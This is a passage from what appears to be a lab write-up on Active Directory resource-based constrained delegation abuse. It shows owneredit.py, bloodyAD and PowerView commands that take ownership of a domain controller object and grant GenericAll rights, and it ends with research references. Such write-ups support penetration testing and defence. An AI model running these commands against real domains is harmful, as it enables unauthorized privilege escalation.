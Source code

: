 The objective is to grant ourselves write access to the computer so that we can modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute. Before we can do this we need to set ourselves as the computer owner though, and this will implicitely grant us permissions to edit the computer's DACL.

To change an AD object's owner from Linux we have two options: [owneredit.py](https://github.com/ShutdownRepo/impacket/blob/owneredit/examples/owneredit.py) and [BloodyAD](https://github.com/CravateRouge/bloodyAD). owneredit.py is written with impacket but hasn't been integrated in the official examples yet, but making use of said library its syntax is the same as all the other impacket scripts:
```text
owneredit.py its-piemonte.local/DACL_Test:'Example!1'@its-dc1 -target 'its-dc1$' -action write -new-owner DACL_Test
```

Unfortunately the script refuses to work in my lab, complaining about invalid credentials when in reality other tools work just fine. BloodyAD can be used instead to change the computer ownership and DACL:
```text
# bloodyAD --host 192.168.0.100 -d its-piemonte -u DACL_Test -p 'Example!1' set owner 'its-dc1$' DACL_Test
# bloodyAD --host 192.168.0.100 -d its-piemonte -u DACL_Test -p 'Example!1' add genericAll 'its-dc1$' DACL_Test
```

![7399e498eef791eaa62d8cab0f1f249c.png](/_resources/7399e498eef791eaa62d8cab0f1f249c.png)

With this our user now has GenericAll on ITS-DC1, so the normal delegation attack can be carried out as already seen:

![f2321cd8713a0b29a6838ad9b5b09cc2.png](/_resources/f2321cd8713a0b29a6838ad9b5b09cc2.png)

[dacledit.py](https://github.com/ShutdownRepo/impacket/blob/dacledit/examples/dacledit.py) can be used to edit the DACL instead of bloodyAD but once again the script wouldn't work in my lab.

Finally, if we are on Windows PowerView can be used to both modify the computer's owner and its DACL:
```text
# Set-DomainObjectOwner -TargetIdentity TargetComputer -OwnerIdentity AttackerUser
# Add-DomainObjectAcl -TargetIdentity TargetComputer -Rights All
```

The example above assumes we are already running PowerView in the context of AttackerUser, otherwise we'need to pass Set-DomainObjectOwner also a `-Credential` parameter with the user's name and encrypted password:
```text
# $pass = ConvertTo-SecureString 'StrongPassword!1' -AsPlainText -Force
# $cred = New-Object System.Management.Automation.PSCredential('DOMAIN\\AttackerUser', $pass)
# Set-DomainObjectOwner -Credential $cred -TargetIdentity TargetComputer -OwnerIdentity AttackerUser
```

---

**References**
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://eladshamir.com/2019/08/08/Lock-Screen-LPE.html
- https://exploit.ph/delegate-2-thyself.html
- https://exploit.ph/revisiting-delegate-2-thyself.html
- https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation/
- https://dirkjanm.io/abusing-forgotten-permissions-on-precreated-computer-objects-in-active-directory/
- https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html
- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd